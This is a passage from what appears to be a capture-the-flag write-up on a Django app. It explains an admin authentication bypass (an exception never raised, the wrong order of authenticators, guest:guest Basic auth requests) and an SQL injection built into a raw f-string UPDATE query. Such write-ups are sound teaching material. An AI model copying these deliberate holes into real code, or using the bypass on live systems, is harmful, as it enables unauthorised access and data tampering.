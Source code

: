 ```py
                raise AuthenticationFailed(f'You are not an admin.', code=401)
            return (user, access_token)
        
        except TokenError as e:
            raise AuthenticationFailed(f'Invalid token: {str(e)}', code=401)
        except User.DoesNotExist:
            raise AuthenticationFailed('User not found.', code=404)
        except Exception as e:
            AuthenticationFailed('Authentication credentials were not provided.', code=401)
```

although i am intiating an `AuthenticationFailed` exception in the last `except` block i did not raise it, so any exception other than `TokenError` and `User.DoesNotExist` will be silently swallowed, looking at the code `token = token.split("Bearer ")[1]` could definitly raise a `IndexError` if the `Token` header does not contain `Bearer `. so to authenticate to the admin views this request would do the trick:

```HTTP
Token: asdf
Authorization: Basic b64(guest:guest)
```

or just this, since I forgot to invert the order of the authenticators and Basic auth would return succefully before hitting the `AdminAuthentication` :P
```HTTP
Authorization: Basic b64(guest:guest)
```

## SQL injection

the admin view `SetHotOfExperienceView` has a SQL injection that we can use after getting bypassing the `AdminAuthentication`.

```py
class SetHotOfExperienceView(APIView):
    authentication_classes = APIView.authentication_classes + [AdminAuthentication]
    permission_classes = [IsAuthenticated]

    def get(self, request, id, hot):
        print(f"UPDATE {Experience._meta.db_table} SET hot='{hot}' WHERE id = {id}")
        Experience.objects.raw(f"UPDATE {Experience._meta.db_table} SET hot='{hot}' WHERE id = %s", [id])._fetch_all()

        return Response({"message": "OK!"}, status=status.HTTP_200_OK)
```

the idea is to exploit the enabled `django.contrib.flatpages.middleware.FlatpageFallbackMiddleware`.

```py
MIDDLEWARE = [
    'django.middleware.security.SecurityMiddleware',
    'django.contrib.sessions.middleware.SessionMiddleware',
    "corsheaders.middleware.CorsMiddleware",
    'django.middleware.common.CommonMiddleware',
    'django.middleware.csrf.CsrfViewMiddleware',
    'django.contrib.flatpages.middleware.FlatpageFallbackMiddleware',
    'django.contrib.messages.middleware.MessageMiddleware',
    'django.middleware.clickjacking.XFrameOptionsMiddleware',
]
```
